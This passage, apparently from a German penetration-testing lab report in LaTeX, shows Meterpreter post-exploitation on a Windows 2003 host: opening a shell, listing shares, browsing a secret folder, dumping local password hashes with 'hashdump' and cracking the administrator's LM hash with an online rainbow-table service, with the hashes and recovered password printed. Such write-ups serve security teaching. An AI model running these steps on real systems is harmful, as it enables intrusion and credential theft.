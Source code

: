 Ein alternativer Weg, um in der Meterpreter-Session die Rezepte zu finden, geht über die Auflistung der vorhandenen Freigaben mit dem Windows-Befehl \emph{net use} in einer zuvor mit dem Befehl \emph{shell} ge\"offneten Windows-Kommandozeile. Daraus kann dann direkt der dahinterliegende Ordner gefunden und seine Inhalte aufgelistet werden... 

\begin{lstlisting}[language=Metasploit]
meterpreter > shell

Process 1760 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32 > net share
net share

Name		Ressource	Beschreibung
-----------------------------------------------------------------------

IPC$    			Remote-IPC
ADMIN$		C:\WINDOWS  	Remoteverwaltung
C$  		C:\		Standardfreigabe
Geheimrezepte  	C:\Geheimrezepte
public		C:\public	\"Offentlicher Ordner

Der Befehl wurde erfolgreich ausgefuhrt.

C:\WINDOWS\system32 > exit
meterpreter > ls C:\\Geheimrezepte

\end{lstlisting}

Außerdem kann man sich noch mit dem Befehl \emph{hashdump} die lokale Nutzerdatenbank mit den Passwort-Hashes ausgeben lassen. Die dort von Windows 2003 standardmäßig gespeicherten LM-Hashes lassen sich mit Hilfe von Rainbow-Tables innerhalb von wenigen Sekunden entschlüsseln, z. B. online unter \url{http://www.crack-online.com/}. Als Administrator-Passwort konnte beispielsweise durch das Analysieren-Lassen von\\
\emph{30b56c5a33fbec925395a77c12853f9f:d9147b2c2e2c06320ae8af50bc71d67d}\\
das Passwort \emph{mayermayer\#} ermittelt werden.

\begin{lstlisting}[language=Metasploit]
meterpreter > hashdump

Administrator:
	500:30b56c5a33fbec925395a77c12853f9f:d9147b2c2e2c06320ae8af50bc71d67d:::
Christian:
	1027:814296f64aab50f985ba78ba0ecdceb0:440103c961c4ff0c240f0c5a483e9d2c:::
Daniela:1029:acf52f38f169af6e99be16b12419c012:746bf92e43a6d5af71eef31389c7dac4:::
Gast:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Marcel:1025:ed121d2a2b5ecee9c9e04f959d38ccb0:6ba8c72392ed275d6b9ffb1936f9bb6a:::
Mayer:1028:aaf5ee32cbe91ffdaad3b435b51404ee:68b83446c10ded73a192fed4dbd4cd38:::
Mueller:
	1033:4ed51acf7905e9a9aad3b435b51404ee:56ed5326e548a66a2187da0d5810593b:::
M\"uller:1034:fb0c033ca6248c12aad3b435b51404ee:6d175e66b077b534bc30280cb0218716:::
Rene:1026:b7731651af6345a825ad3b83fa6627c7:272da8d2ebae0086f417bce3790ce205:::
SUPPORT_388945a0:
	1001:aad3b435b51404eeaad3b435b51404ee:f949ba8fc7dd717fed514fc97e6025a8:::
User0815:1023:e52cac67419a9a22417eaf50cfac29c3:60ed35ce39cf0db011f4bdbd19382d72:::
\end{lstlisting}


